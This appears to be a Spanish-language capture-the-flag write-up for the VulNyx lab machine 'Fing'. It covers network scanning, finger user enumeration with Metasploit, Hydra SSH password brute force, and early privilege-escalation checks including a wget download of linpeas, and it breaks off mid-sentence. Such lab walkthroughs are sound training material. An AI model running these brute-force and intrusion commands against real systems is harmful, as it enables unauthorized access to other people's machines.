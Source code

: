 ```yaml
---
Nombre de la máquina: Fing
Sistema Operativo: Linux
Enlace de descarga: https://vulnyx.com/
---
```


## Escaneo de equipos de la red.

Una vez descargada la maquina y levantada en nuestro virtualizador, la buscamos con la herramienta ARP-SCAN.
```
sudo arp-scan -I (NUESTRA INTERFAZ) --localnet
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/cc792507-e35e-4d23-a315-86612237ff7e)

Nos damos cuenta ya que luego de la MAC el escaneo con arp-scan nos dice "VMware", si aun no estamos seguros podemos tirarle un ping para verificar la conexion y su ttl.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/eb6f7ab9-0473-4fb1-9018-bec0e316b4b3)


## Nmap.

Una vez tenemos claro la IP objetivo, es momento de el escaneo con nmap.
```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/01ebda0f-42f4-4834-b556-48c121ee84bf)

Como vemos, el escaneo de puertos nos dice que hay 3 puertos abiertos, 22/ssh, 79/finger y 80/http. Como se constumbre, lo primero es revisar la aplicacion web que esta corriendo en el puerto  80.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/821b6b76-6410-484a-8bf4-d7f39b1440db)

Se trata de un Apache por defecto, por lo que vamos a buscar directios en caso de haber.

## Fuzzing.

```
gobuster dir -u http://192.168.1.105 -w (DICCIONARIO)
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/790ff582-ba3a-441d-aec7-5b2f88f3c782)

Como vemos la herramienta Gobuster no nos encuentra nada interesante, por lo que podriamos ponernos en la busqueda de subdirectorios, aunque primero vamos a revisar el servicio del puerto 79 que nos encontro el escaneo con nmap, finger.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/fccd9f50-b88e-4b60-a05f-2258fad848ce)
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0fd5efe5-b008-4e25-92f8-e0793d775a87)

Como vemos nos dice que tenemos modulos en Metasploit para dicho servicio.

## Metasploit.

Ejectuamos metasploit y buscamos un modulo por la palabra "finger".

```
msfconsole
```
```
search finger
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/9e9f5a1f-fb23-4c1d-9343-f23d5f2c4ccd)

Como vemos con el modulo numero 1 podemos listar usuario, por lo que procedemos a configurarlo y ejecutarlo.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f5cc909a-89c7-4939-8899-debd586ac97f)

Luego de configurado el exploit seteando la ip objetivo y el diccionario que utilizamos para el ataque con nombres de usuarios, nos dice que hay un usuario de nombre "adam"
Rapidamente probamos sin exito con el modulo de ataques de fuerza bruta al protocolo ssh, por lo que seguimos con la herramienta Hydra.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/60bebce6-9903-4aaa-b9e2-0f8c40f9f670)

## Hydra.

Atacamos con hydra indicando el usurio, el diccionario que vamos a utilizar y el protocolo que vamos a atacar.

```
sudo hydra -l adam -P DICCIONARIO ssh://192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f26d8fd3-dd24-4a9a-89d0-1f6884443d26)

Hydra nos encuentra la contraseña "passion", por lo que nos conectamos por ssh.

## Escalada de privilegios.

Lo primero que probamos son los comandos:

```
sudo -l
```
```
find / -perm -4000 2</dev/null
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/7c596878-a73b-4511-af43-0c1473cb4b64)

Dentro de los binarios no vemos nada llamativo, mas que el binario DOAS, por lo que procedemos a descargar y usar la herramienta "linpeas.sh" para estar mas seguros.

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0e16e493-2b1c-4da1-afdc-f02e4f300f31)

Como vemos el resultado del escaneo con linpeas nos 
